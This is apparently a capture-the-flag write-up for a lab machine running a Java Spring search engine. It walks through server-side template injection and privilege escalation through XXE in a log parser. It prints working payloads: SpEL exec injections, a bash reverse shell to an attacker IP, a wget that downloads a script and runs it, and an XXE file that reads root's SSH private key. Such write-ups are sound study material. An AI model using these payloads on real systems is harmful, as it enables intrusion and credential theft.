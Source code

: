## NMAP

TCP Ports available: 22, 8080 

8080 has a website on it. 

The website on port 8080 shows a search engine.
Looking at the code, it is clear that the backend is based on Java Spring.

## Parameters Fuzzing

The POST request of the search engine has a single `name` parameter.
Fuzzing it via Burp suite using all possible payloads we get some errors with certain chars.
Moreover inserting `7*7` in the search bar, we get `49` showing that there is a template engine interpreting chars.

It looks like the website is vulnerable to SSTI.

## Server-Side Template Injection

Several payloads from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection are attempted with multiple combination of charachters and it looks like the following one can actually succeed.

```java
*{T(java.lang.Runtime).getRuntime().exec('id')}
```

Injecting a full reverse shell command does not work as charachters like `&` are forbidden. So we need to create a script and deliver it via webserver.

## Deliver the Reverse Shell

```shell
echo "bash -i >& /dev/tcp/10.10.14.35/3333 0>&1" > rev.sh
php -S 0.0.0.0:8000
```

On the client side the reverse shell must be waiting

```shell
nc -lvnp 3333
```

So we can push the script to the server and run it.

```java
*{T(java.lang.Runtime).getRuntime().exec('wget http://10.10.14.35:8000/rev.sh')}
*{T(java.lang.Runtime).getRuntime().exec('chmod +x rev.sh')}
*{T(java.lang.Runtime).getRuntime().exec('bash rev.sh')}
```

And we obtain a user shell with the corresponding `flag.txt` file in the home directory

We are going to run the https://linpeas.sh/script to enumerate the system. 

## Linpeas

It reveals that the current website is running via root using:

```shell
sudo -u woodenk -g logs ...
```

Which means that the website runs as the user `woodenk` and group `logs`.

Moreover it reveals files into the `/credits` directory that are not accessible by non-root users that do not belong to the `logs` group. The files inside are only writeable by `root`.

## Opening SSH

We can open an `ssh` connection by adding our public key into `~/.ssh/authorized_keys` in the user home, but this is only good for convenience, to get a powerful shell. 

**The reverse shell is still useful because of the `logs` group that allows us additional permissions over the file system! We need to work with it!** 

## Vulnerable Logs

Another interesting file is `/opt/panda_search/redpanda.log` which is a log readable by everybody and writable by `root` and the `logs` group. 

## Code Analysis

The code of the website is available in /opt. There are two components.

1) The `panda_search` website itself
2) The `logparser` script 

The second one has the code in `/opt/logparser` where we understand that the script must be executed with `root` privileges to be able to write into the `*_creds.xml` in `/credits`.

Doing some tests we see that every time that an image is found in the search engine:

- The `redpanda.log` is updated with a message
- The `logparser` program reads periodically `redpanda.log` and updates the xml files with `root` privileges

This seems to be a possible attack channel! 

## Exploit

Studying the code of `logparser` we understand that:

1) The author name is taken from the picture metadata
2) The output file path is built using the name taken from the picture metadata
3) The XML results file is read before updating it with the new data
4) There is no check on any field!

We can exploit the XML XXE vulnerability if we find a way to enforce the read operation on our XML file instead of the correct one!

So the exploit works by:

1) Place the XML file in a user controllable path like `/tmp`
2) Place an image file in `/tmp` too
3) Put a relative image path into `redpanda.log` so that combined with the path in the Java code, the evil-crafted image is taken
4) Change the Artist metadata in the picture with the relative path of the evil xml file so that combined with the path in the Java code, the evil-crafted xml is taken

The evil XML and JPG can be crafte remotely and served via the php server as above.

To update the metadata in the image, say `greg.jpg` use the following:

```shell
exiftool -Artist='../tmp/evil' greg.jpg
```

Notice that the code will concatenate the Artist name in the following way:

```java
'/credits/' + Artist + '_creds.xml'
```

So the artist must be crafted according to the real xml file name.
Then create an XML file `evil_creds.xml` with the following content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///root/.ssh/id_rsa" >]>
<credits>
  <author>gg</author>
  <image>
    <uri>/../../../../../../tmp/greg.jpg</uri>
    <views>1</views>
    <foo>&xxe;</foo>
  </image>
  <totalviews>2</totalviews>
</credits>
```

Notice that the URI file path must be relative to the img folder into `/tmp` as this will be checked by the code. If it's wrong it won't work.

Now add the same image path into a fake string into `redpanda.log`:

```
200|somestuff|someotherstuff|/../../../../../../tmp/greg.jpg
```

Notice that the url path requires a starting slash as the code will not add that.

Now add that line into `redpanda.log` and... wait!

Once the `loparser` runs the exploit will work and the XXE vulnerability will update the XML file with the content of `/root/.ssh/id_rsa` which can be used to connect via ssh as root and get the root flag!